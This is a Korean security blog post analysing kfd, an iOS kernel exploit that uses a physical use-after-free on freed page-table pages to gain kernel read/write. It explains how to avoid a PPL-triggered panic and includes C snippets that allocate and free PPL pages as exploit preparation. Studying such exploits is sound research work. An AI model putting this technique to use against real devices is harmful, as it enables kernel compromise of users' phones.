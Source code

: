 ```yaml
---
title: "[iOS] iOS에서 KTRW를 우회하여 커널을 읽고 쓸 수 있는 kfd"
excerpt: "kfd 분석글"

categories:
  - Security
tags:
  - [Security, iOS]

permalink: /Security/puaf/

toc: true
toc_sticky: true

date: 2024-09-01
last_modified_at: 2024-09-01
---
```


# <mark>TL;DR</mark>
> puaf 이용하여 free된 PTE L3 물리 페이지으로부터 <u>커널 읽기/쓰기 권한</u>을 가져올 수 있다.


# <mark> puaf를 이용하여 권한을 가져온 상태를 정의하자 </mark>
`puaf`는 Physical Use Afer Free의 약어로, 물리주소에서 일어나는 UAF다.<br>
<b>댕글링 포인터를 이용하여 특정 Page Table Entry의 AP 비트를 이용해 읽고 쓰는 권한</b>을 갖게 하는 것이다.<br>
User Process에서 위의 과정이 일어나게 되고 free()한 후에 커널이 이를 사용하게 하여 커널의 R/W 권한을 가져오게 된다.<br>
<br>
이때 유의해야할 점으로 Page Preservation Layer에서 사용할 수 있는 free()된 리스트가 부족하게 되면,<br>
PPL은 pmap_mark_page_as_ppl_page_internal()를 호출하게 된다.<br>
이때 PPL은 일반 커널에서 페이지를 요청하기 때문에 PPL 매커니즘에 의해 커널 패닉을 발생시킨다.<br>
따라서 <b>PPL을 사용할때 free() 리스트의 크기를 늘려야 한다.</b>

## <mark>위의 과정을 코드로 보자 </mark>
#### 1. PPL 소유 페이지 할당 
```c
while (true) {
        // address + 2^25(1ull << 25)
        address += l2_block_size;
        if (address < min_address) {
            continue;
        }

        if (address >= max_address) {
            break;
        }

        /// vm_allocate()를 이용해서 PPL_pages를 원하는 크기만큼 할당
        kern_return_t kret = vm_allocate(mach_task_self(), &address, pages(1), VM_FLAGS_FIXED);
        if (kret == KERN_SUCCESS) {
            /// 사용자 공간에서 인식가능하도록 하는 과정
            memset((void*)(address), 'A', 1);
            addresses[given_ppl_pages] = address;
            /// 최대 페이지 수로 설정한 10000에 도달하면 break
            if (++given_ppl_pages == given_ppl_pages_max) {
                break;
            }
        }
    }
```

#### 2. 할당된 PPL_pages에 매핑 존재하는지 확인하고, 없으면 L3 테이블 할당(내부적으로 동작)

#### 3. 할당을 해제하면 Free 리스트에 들어감
```c
/// 할당 메모리 해제
    for (u64 i = 0; i < given_ppl_pages; i++) {
        assert_mach(vm_deallocate(mach_task_self(), addresses[i], pages(1)));
    }

    print_u64(given_ppl_pages);
```


```
즉, 반복적으로 해당 영역을 살피면서 AP비트를 확인하는 것이다.
```

